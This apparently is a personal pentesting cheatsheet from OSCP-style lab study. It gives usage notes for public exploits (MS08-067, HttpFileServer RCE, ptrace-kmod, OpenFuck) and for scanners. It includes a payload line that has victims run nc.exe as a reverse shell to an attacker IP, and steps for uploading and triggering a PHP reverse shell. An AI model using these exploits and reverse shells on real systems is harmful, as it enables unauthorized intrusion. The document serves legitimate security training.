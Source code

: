 # Exploits/Tools/Cheatsheets
 

### Windows Exploits
<details><summary>MS08-067 Python Remote Exploit</summary>
<p>

(https://www.exploit-db.com/exploits/40279)
edit `shellcode` variable with payload and adjusts NOPS to fit it

</p>
</details>

<details><summary>MS14-058 HttpFileServer 2.3.x RCE</summary>
<p>

(https://www.exploit-db.com/exploits/37064)
Upload nc.exe into victim machine and performs a reverse shell using nc.exe
```python
	#change these to your webserver for uploading nc.exe
	ip_addr = "192.168.1.20" 
	local_port = "80" 
	#file will be uploaded to and run from C:\Users\Public, change ip and port here to catch your reverse shell
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20192.168.1.10%20443%20-e%20cmd.exe"
```
</p>
</details>

### Linux Exploits
<details><summary>Linux Kernel 2.2-4 PrivEsc (ptrace-kmod)</summary>
<p>

(https://www.exploit-db.com/exploits/3)
Works for 2.2.x and 2.4.x kernels.
```c
// include <linux/user.h> <---remove this
// add below 
#include <sys/user.h>
#include <sys/reg.h>
```
</p>
</details>

<details><summary>Mod SSL 2.8.7 OpenSSL Exploit (openfartV2.c)</summary>
<p>

(https://www.exploit-db.com/exploits/764)
commented out `#COMMAND2` variable out to download. Can be used seperately with ptrace-kmod for PrivEsc.
Usage:
1. compile code
`gcc -o openfuck openfuckV2.c -lcrypto`
_if you encounter missing ld error while compiling at victim machine, try checking PATH and make sure it is pointing to the 'ld' file_

2. In your ptrace-kmod.c directory start webserver
`python -m SimpleHTTPServer 80`
</p>
</details>


### Other Exploits
<details><summary>PHP Reverse Shell (pentest monkey)</summary>
<p>

(http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
Works like a charm in linux php LFI situations better than `system('<reverse shell bash code>');`
1. modify code
```c
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```
2. start listener to catch reverse shell
3. upload and run script
</p>
</details>


### Tools
<details><summary>Onetwopunch - wrapper for unicorn and nmap scan</summary>
<p>

(https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh) 
Scan for port using nicornscan (very fast) and chain it with nmap vuln nse script scan
1. ping sweep for online hosts into list
`nmap -v -sn 10.11.1-254 -oG all-hosts.txt`
`grep Up all-hosts.txt > online.hosts.txt`

2. download onetwopunch script
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
 
3. run script with nmap -sV option
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`
 
4. Once complete, navigate to output folder "ndir". Use command to formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`

5. Navigate to output folder "ndir" and formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
</p>
</details>

<details><summary>Droopescan - drupal scanner</summary>
<p>

(https://github.com/droope/droopescan)
```
git clone https://github.com/droope/droopescan.git
cd droopescan
pip install -r requirements.txt
droopescan scan drupal -u http://10.11.1.49
```
</p>

<details><summary>Samba Checker</summary>
<p>

Checks Samba version as enum4linux f\*cked up.
THanks fellow student OS-40285/rewardone
```bash
./samba_checker.sh <ipaddress> <port>
```
</p>

</details>



